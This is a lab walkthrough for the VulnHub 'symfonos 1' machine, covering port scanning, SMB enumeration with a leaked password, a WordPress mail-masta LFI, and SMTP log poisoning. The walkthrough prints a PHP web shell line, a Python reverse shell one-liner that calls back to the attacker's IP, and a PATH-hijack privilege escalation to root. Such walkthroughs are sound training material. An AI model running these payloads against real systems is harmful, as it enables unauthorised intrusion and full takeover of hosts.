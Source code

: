 <h1>symfonos: 1</h1>

**Today, we'll be looking at the symfonos 1 machine on vulnhub.**

**You can download the machine here:**
<https://www.vulnhub.com/entry/symfonos-1,322/>

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A 172.16.243.134 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 09:13 EET
Nmap scan report for 172.16.243.134
Host is up (0.00012s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab5b45a70547a50445ca6f18bd1803c2 (RSA)
|   256 a05f400a0a1f68353ef45407619fc64a (ECDSA)
|_  256 bc31f540bc08584bfb6617ff8412ac1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:4D:BC:CD (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-19T07:13:23
|_  start_date: N/A
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2023-06-19T02:13:23-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.16.243.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.81 seconds
```

We can see that the machine is running smb.

Let's use enum4linux to enumerate the mahcine.

```enum4linux -a 172.16.243.134```

We found a username.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic1.png)

We also found shares on the machine.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic2.png)

Let's check the anonymous share as it doesn't have a password.

```smbclient //symfonos.local//anonymous```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic3.png)

We found an interesting file **attention.txt**.

Let's get that.

Looks like we got some passwords.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic4.png)

Let's try to login into the helios share with those.

We got in with the password **qwerty**.

We also found two files.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic5.png)

We found a directory in the **todo.txt** file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic6.png)

Looks like it's runnin wordpress.

Let's run wpscan.

```wpscan --url http://symfonos.local/h3l105```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic7.png)

We found a plugin called **mail-masta** that has an LFI vulnerability.

You can find it [here](https://www.exploit-db.com/exploits/40290).

We can read the /etc/passwd file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic8.png)

Now, let's try to include php shell code.

We can use the smtp server running on port 25 to send the php code.

```MAIL FROM: <hacker>```

```RCPT TO: Helios```

```data```

```<?php system($_GET[‘cmd’]); ?>```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic9.png)

We can verify it's working by runnin the command **id**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic10.png)

Now, let's open a shell on the machine.

I'll use this python shell.

```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.243.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

We got a shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic11.png)


After some local enumeration, I found an interesting file in the **opt** directory called **statuscheck**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic12.png)

I ran it and looks like it ran the curl command.

And it is run as root.

We can modify the PATH variable and use that to gain root priviliges.

First let's go to the **tmp** directory and create our own curl command.

After that, we need to modify the PATH variable to run the curl command we just created.

``echo "/bin/sh" > curl``

``chmod 777 curl``

``export PATH=.:$PATH``

Now, if we run ``/opt/statuscheck``, we should become root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic13.png)
